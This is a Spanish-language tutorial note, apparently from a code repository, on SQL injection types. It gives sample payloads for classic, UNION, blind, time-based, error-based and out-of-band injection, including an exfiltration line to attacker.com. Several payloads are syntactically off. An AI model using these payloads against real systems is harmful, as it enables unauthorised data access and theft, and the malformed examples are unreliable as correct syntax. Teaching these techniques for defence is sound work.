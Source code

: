 # Notas sobre Inyección SQL

## ¿Qué es una inyección SQL?

Una inyección SQL es una técnica de ataque que consiste en insertar código SQL malicioso en las consultas que se envían a una base de datos. Esto ocurre cuando una aplicación web no valida adecuadamente los datos proporcionados por el usuario antes de añadirlos a una consulta SQL y enviarlos a la base de datos. Mediante esta técnica, un atacante puede manipular las interacciones legítimas de la aplicación web con la base de datos y realizar acciones como leer, modificar o dejar indisponibles diferentes registros de la base de datos.

## Tipos de Inyecciones SQL

1. **Inyección Clásica o de Primer Orden**:
   - **Descripción**: El atacante introduce código SQL malicioso directamente a través de los métodos de entrada de la aplicación.
   - **Ejemplo**:
     ```sql
     -- Consulta original
     SELECT * FROM usuarios WHERE usuario = 'nombre_usuario' AND contrasena = 'contrasena_ingresada';

     -- Inyección SQL
     nombre_usuario = ''; OR '1'='1'; --
     ```

     - **Consulta resultante**:
       ```sql
       SELECT * FROM usuarios WHERE usuario = '' OR '1'='1'; -- ' AND contrasena = 'contrasena_ingresada';
       ```

2. **Inyección Basada en UNION**:
   - **Descripción**: El atacante usa la palabra clave `UNION` para combinar los resultados de la consulta original con el código malicioso.
   - **Ejemplo**:
     ```sql
     -- Consulta original
     SELECT usuario, email FROM usuarios WHERE usuario = 'nombre_usuario';

     -- Inyección SQL
     nombre_usuario = ''; UNION SELECT null, version(); --
     ```

     - **Consulta resultante**:
       ```sql
       SELECT usuario, email FROM usuarios WHERE usuario = '' UNION SELECT null, version(); -- ' ;
       ```

3. **Blind SQL Injection**:
   - **Descripción**: Utilizada cuando la aplicación no muestra resultados de la consulta. Se basa en observaciones condicionales lógicas.
   - **Ejemplo**:
     ```sql
     -- Consulta original
     SELECT * FROM usuarios WHERE nombre_usuario = 'nombre' AND contrasena = 'contrasena_ingresada';

     -- Inyección SQL
     nombre_usuario = ''; AND SUBSTRING(nombre_usuario, 1, 1) = 'A' -- 
     ```

     - **Consulta resultante**:
       ```sql
       SELECT * FROM usuarios WHERE nombre_usuario = '' AND SUBSTRING(nombre_usuario, 1, 1) = 'A'-- ' AND contrasena = 'contrasena_ingresada';
       ```

4. **Inyección Basada en Tiempo (Time-based)**:
   - **Descripción**: Similar al Blind SQL Injection, pero usa funciones de tiempo para inferir resultados.
   - **Ejemplo**:
     ```sql
     -- Consulta original
     SELECT * FROM usuarios WHERE nombre_usuario = 'nombre' AND contrasena = 'contrasena_ingresada';

     -- Inyección SQL
     nombre_usuario = ''; AND IF(LENGTH((SELECT nombre_usuario FROM usuarios LIMIT 1))=5, SLEEP(5), 0)--
     ```

     - **Consulta resultante**:
       ```sql
       SELECT * FROM usuarios WHERE nombre_usuario = '' AND IF(LENGTH((SELECT nombre_usuario FROM usuarios LIMIT 1))=5, SLEEP(5), 0)-- ' AND contrasena = 'contrasena_ingresada';
       ```

5. **Inyección Basada en Errores**:
   - **Descripción**: El atacante provoca errores intencionales en la base de datos para obtener información a través de los mensajes de error.
   - **Ejemplo**:
     ```sql
     -- Consulta original
     SELECT * FROM usuarios WHERE usuario = 'nombre_usuario';

     -- Inyección SQL
     nombre_usuario = ''; AND 1=CONVERT(int, (SELECT @@version)) -- 
     ```

     - **Consulta resultante**:
       ```sql
       SELECT * FROM usuarios WHERE usuario = '' AND 1=CONVERT(int, (SELECT @@version)) -- ';
       ```

6. **Inyección Out-of-Band (OOB)**:
   - **Descripción**: Usa métodos alternativos, como solicitudes HTTP o DNS, para exfiltrar datos en lugar de hacerlo directamente a través de la aplicación web vulnerable.
   - **Ejemplo**:
     ```sql
     -- Consulta original
     SELECT * FROM usuarios WHERE usuario = 'nombre_usuario';

     -- Inyección SQL
     nombre_usuario = ''; IF (1=1) THEN (http://attacker.com/exfil?data=(SELECT database())); END IF;
     ```

## Identificación de Puntos de Inyección

Para identificar puntos de inyección en una aplicación web:

1. **Introducción de Caracteres Conflictivos**:
   - Insertar caracteres especiales (`'`, `"`, `--`, etc.) en los campos de entrada para generar errores y observar respuestas.

2. **Uso de Técnicas Condicionales y de Tiempo**:
   - Utilizar condiciones lógicas o funciones de retraso (`SLEEP`) para analizar el comportamiento de la aplicación.

3. **Herramientas de Análisis y Explotación**:
   - Herramientas como SQLmap pueden automatizar la identificación y explotación de vulnerabilidades SQL.

Estos métodos permiten descubrir puntos vulnerables y evaluar su viabilidad de explotación.

